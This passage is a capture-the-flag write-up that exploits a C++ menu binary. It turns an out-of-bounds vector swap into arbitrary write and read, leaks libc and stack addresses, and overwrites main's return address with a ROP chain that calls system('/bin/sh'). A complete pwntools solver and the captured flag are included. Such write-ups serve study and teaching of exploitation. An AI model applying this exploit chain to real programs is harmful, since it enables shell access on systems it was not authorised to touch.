07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x40161e main+449
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> b *0x40161e
Note: breakpoint 6 also set at pc 0x40161e.
Breakpoint 8 at 0x40161e
pwndbg> p/x $rax
$6 = 0x418ad8
pwndbg> p/x $rbx
$7 = 0x4d2
pwndbg> x/gx $rax
0x418ad8:       0x0000000000418af8
pwndbg> set $vecobj = *(unsigned long long*)0x4052a0
pwndbg> x/3gx $vecobj
0x418ad0:       0x0000000000418af0      0x0000000000418af8
0x418ae0:       0x00000000004192f0
```

---

### Turning finish Corruption into Arbitrary Write

#### Write primitive

The exploit uses this sequence:

```
add(target_address)
swap(current_index, -3)
add(value)
swap(current_index, -3)
```

Explanation:

1. `add(target_address)` → `vector[current_index] = target_address`
2. `swap(current_index, -3)` → swaps `vector[current_index]` with `vector.finish` → `finish = target_address`
3. `add(value)` → `push_back(value)` → writes `value` to `finish` → `*(uint64_t *)target_address = value`
4. `swap(current_index, -3)` → restores `finish` so the vector still works

So i build:

```python
def write64(address, value):
    global next_index
    add_number(address)
    swap_numbers(next_index, VECTOR_FINISH_INDEX)
    add_number(value)
    swap_numbers(next_index, VECTOR_FINISH_INDEX)
    next_index += 1
```

This gives:

```c
*(uint64_t *)address = value;
```

*I'm so confused tbh........*

---

### Turning Arbitrary Write into Arbitrary Read

#### Why corrupt name?

The menu repeatedly prints:

```cpp
std::cout << "Hi, " << name << std::endl;
```

The global string is at:

```
name = 0x405280
```

Confirm with:

```bash
nm -C ./cbc_plus_plus_1 | grep name
```

Expected:

```
0000000000405280 B name[abi:cxx11]
```

The `std::string` layout we abuse:

```
name + 0x00 = pointer to string buffer
name + 0x08 = string length
```

So we overwrite:

```
name.ptr = target_address
name.len = 8
```

Then the next menu print leaks 8 bytes from `target_address`.

So i build:

```python
def point_name_to(address, length):
    write64(NAME_PTR, address)
    write64(NAME_LEN, length)

def leak(address, size=8):
    point_name_to(address, size)
    data = wait_menu()
    marker = b"Hi, "
    start = data.rfind(marker)
    if start == -1:
        log.failure(f"leak marker not found: {data!r}")
        exit(1)
    leaked = data[start + len(marker):]
    end = leaked.find(b"\n1. Add")
    if end != -1:
        leaked = leaked[:end]
    return leaked.ljust(size, b"\x00")[:size]

def leak64(address):
    return u64(leak(address, 8))
```

Now we have both: **arbitrary write** and **arbitrary read**.

---

### Libc Leak

Because the binary has **No PIE**, GOT addresses are fixed.

Leak:

```
__libc_start_main@GOT = 0x404ff0
```

With:

```python
libc_start_main = leak64(LIBC_START_MAIN_GOT)
```

Then:

```python
libc.address = libc_start_main - libc.sym["__libc_start_main"]
```

We identified the remote libc as Ubuntu glibc 2.39. The relevant offsets were:

```
__libc_start_main     = 0x2a200
__libc_start_main_ret = 0x2a1ca
system                = 0x58740
/bin/sh               = 0x1cb42f
environ               = 0x20ad58
```

Download the libc:

```bash
wget -O libc.so.6 'https://libc.rip/download/libc6_2.39-0ubuntu8.2_amd64.so'
```

---

### Stack Leak via environ

After libc base is known, leak:

```python
stack_leak = leak64(libc.sym["environ"])
```

`environ` is a libc symbol pointing to the process environment pointer array. On Linux, environment strings/pointers live near the stack, so leaking `environ` gives a stack pointer useful for finding saved return addresses.

Then search downward for:

```python
libc.address + 0x2a1ca
```

That value is `__libc_start_main_ret`.

**References:** https://pwndbg.re/stable/reference/pwndbg/commands/telescope/

```
0x7fffffffde78 → 0x7ffff782a1ca (__libc_start_call_main+122)
```

That stack entry is the return address for main. Remotely, we scan from `environ` until we find that value.

```python
def find_saved_rip(stack_leak):
    libc_start_main_ret = libc.address + 0x2a1ca
    log.info(f"searching for __libc_start_main_ret = {hex(libc_start_main_ret)}")
    for offset in range(0, 0x1000, 8):
        address = stack_leak - offset
        value = leak64(address)
        if value == libc_start_main_ret:
            return address
    return None
```

---

### Build ROP

ROP chain:

```
ret
pop rdi; ret
/bin/sh
system
```

Why:
- `ret` = stack alignment
- `pop rdi; ret` = first argument goes into RDI
- `/bin/sh` = argument to `system`
- `system` = `system("/bin/sh")`

pwntools provides ELF and ROP helpers to load symbols, search for `/bin/sh`, and find gadgets.

```python
rop = ROP(libc)
ret     = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
bin_sh  = next(libc.search(b"/bin/sh\x00"))
system  = libc.sym["system"]

log.success(f"ret           = {hex(ret)}")
log.success(f"pop rdi; ret  = {hex(pop_rdi)}")
log.success(f"/bin/sh       = {hex(bin_sh)}")
log.success(f"system        = {hex(system)}")

chain = [
    ret,
    pop_rdi,
    bin_sh,
    system,
]
write_rop_chain(saved_rip, chain)
```

Trigger return:

```python
choose(3)
```

Then:

```
Bye!
```

...and the process returns into `system("/bin/sh")`.

---

### Final Solver

```python
from pwn import *

HOST = "pwn.cbd2026.cloud"
PORT = 9999

exe  = ELF("./cbc_plus_plus_1")
libc = ELF("./libc.so.6")
context.binary    = exe
context.log_level = "info"

NAME             = 0x405280
NAME_PTR         = NAME
NAME_LEN         = NAME + 8
LIBC_START_MAIN_GOT  = 0x404ff0
VECTOR_FINISH_INDEX  = -3

next_index   = 0
have_prompt  = False

def start():
    if args.LOCAL:
        return process(exe.path)
    return remote(HOST, PORT)

io = start()

def wait_menu():
    global have_prompt
    if have_prompt:
        return b""
    data = io.recvuntil(b"> ")
    have_prompt = True
    return data

def choose(option):
    global have_prompt
    wait_menu()
    io.sendline(str(option).encode())
    have_prompt = False

def add_number(value):
    choose(1)
    io.recvuntil(b"Num: ")
    io.sendline(str(value & 0xffffffffffffffff).encode())
    io.recvuntil(b"Done")

def swap_numbers(index_a, index_b):
    choose(2)
    io.recvuntil(b"Index 1: ")
    io.sendline(str(index_a).encode())
    io.recvuntil(b"Index 2: ")
    io.sendline(str(index_b).encode())
    io.recvuntil(b"Done")

def write64(address, value):
    global next_index
    add_number(address)
    swap_numbers(next_index, VECTOR_FINISH_INDEX)
    add_number(value)
    swap_numbers(next_index, VECTOR_FINISH_INDEX)
    next_index += 1

def point_name_to(address, length):
    write64(NAME_PTR, address)
    write64(NAME_LEN, length)

def leak(address, size=8):
    point_name_to(address, size)
    data = wait_menu()
    marker = b"Hi, "
    start = data.rfind(marker)
    if start == -1:
        log.failure(f"leak marker not found: {data!r}")
        exit(1)
    leaked = data[start + len(marker):]
    end = leaked.find(b"\n1. Add")
    if end != -1:
        leaked = leaked[:end]
    return leaked.ljust(size, b"\x00")[:size]

def leak64(address):
    return u64(leak(address, 8))

def write_rop_chain(address, chain):
    for i, value in enumerate(chain):
        target = address + i * 8
        log.info(f"write {hex(value)} -> {hex(target)}")
        write64(target, value)

def find_saved_rip(stack_leak):
    libc_start_main_ret = libc.address + 0x2a1ca
    log.info(f"searching for __libc_start_main_ret = {hex(libc_start_main_ret)}")
    for offset in range(0, 0x1000, 8):
        address = stack_leak - offset
        value = leak64(address)
        if value == libc_start_main_ret:
            return address
    return None

def main():
    io.recvuntil(b"Your name: ")
    io.sendline(b"ram")

    libc_start_main = leak64(LIBC_START_MAIN_GOT)
    log.success(f"__libc_start_main = {hex(libc_start_main)}")

    libc.address = libc_start_main - libc.sym["__libc_start_main"]
    log.success(f"libc base = {hex(libc.address)}")

    stack_leak = leak64(libc.sym["environ"])
    log.success(f"environ = {hex(stack_leak)}")

    saved_rip = find_saved_rip(stack_leak)
    if saved_rip is None:
        log.failure("could not find saved RIP")
        io.interactive()
        return
    log.success(f"saved RIP = {hex(saved_rip)}")

    rop     = ROP(libc)
    ret     = rop.find_gadget(["ret"])[0]
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    bin_sh  = next(libc.search(b"/bin/sh\x00"))
    system  = libc.sym["system"]

    log.success(f"ret          = {hex(ret)}")
    log.success(f"pop rdi; ret = {hex(pop_rdi)}")
    log.success(f"/bin/sh      = {hex(bin_sh)}")
    log.success(f"system       = {hex(system)}")

    chain = [
        ret,
        pop_rdi,
        bin_sh,
        system,
    ]
    write_rop_chain(saved_rip, chain)

    choose(3)
    io.sendline(b"id")
    io.sendline(b"cat flag.txt")
    io.interactive()

if __name__ == "__main__":
    main()
```

---

### Flag



```
CBC{c47884f6827d5fdb9799e7dad890e04934f47b29ab5e9f20a04bb4d6d9426fcb}
```

---

### References

1. https://pwndbg.re/stable/reference/pwndbg/commands/telescope/
2. https://en.cppreference.com/cpp/container/vector
3. https://fr.cppreference.com/cpp/container/vector/operator_at

---